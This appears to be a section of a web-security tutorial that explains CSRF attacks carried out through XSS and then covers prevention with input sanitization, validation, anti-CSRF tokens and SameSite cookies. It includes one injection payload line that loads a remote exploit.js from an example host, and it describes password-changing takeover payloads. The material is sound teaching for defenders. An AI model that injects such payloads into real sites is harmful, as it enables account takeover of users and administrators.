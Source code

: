 <h3>Cross-Site Request Forgery (CSRF)</h3>

The third type of front end vulnerability that is caused by unfiltered user input is Cross-Site Request Forgery (CSRF). CSRF attacks may utilize XSS vulnerabilities to perform certain queries, and API calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.

A common CSRF attack to gain higher privileged access to a web application is to craft a JavaScript payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the JavaScript CSRF payload), the JavaScript code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

CSRF can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admins within a given web application). Following this example, instead of using JavaScript code that would return the session cookie, we would load a remote .js (JavaScript) file, as follows:

Code: html
"><script src=//www.example.com/exploit.js></script>
The exploit.js file would contain the malicious JavaScript code that changes the user's password. Developing the exploit.js in this case requires knowledge of this web application's password changing procedure and APIs. The attacker would need to create JavaScript code that would replicate the desired functionality and automatically carry it out (i.e., JavaScript code that changes our password for this specific web application).

<h3> Prevention </h3>

Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without communicating with the back end. Two main controls must be applied when accepting user input:

Type Description

1. Sanitization - Removing special characters and non-standard characters from user input before displaying it or storing it.

2. Validation - Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)

Furthermore, it is also important to sanitize displayed output and clear any special/non-standard characters. In case an attacker manages to bypass front end and back end sanitization and validation filters, it will still not cause any harm on the front end.

Once we sanitize and/or validate user input and displayed output, we should be able to prevent attacks like HTML Injection and XSS. Another solution would be to implement a web application firewall (WAF), which can help prevent injection attempts automatically. However, it should be noted that WAF solutions can potentially be bypassed, so developers should follow coding best practices and not merely rely on an appliance to detect/block attacks.

To defend against XSS, modern browsers have built-in protections that block the automatic execution of Javascript code. In the case of CSRF, most modern web applications include anti-CSRF mechanisms, such as requiring a unique token for each session or request. Additionally, HTTP-level defenses like the SameSite cookie attribute (SameSite=Strict or Lax) can restrict browsers from including authentication cookies in cross-origin requests. Functional protections, like requiring the user to input their password before changing it, can also help mitigate the impact of CSRF. Despite these security measures, they can still be bypassed in certain scenarios. As a result, vulnerabilities like XSS and CSRF continue to pose significant risks to web application users. These defenses should be treated as additional layers of protection, not primary safeguards—developers must ensure that their applications are secure by design and not inherently vulnerable to such attacks.

This Cross-Site Request Forgery Prevention Cheat Sheet from OWASP discusses the attack and prevention measures in greater detail.

SOURCE:

https://owasp.org/www-community/attacks/csrf
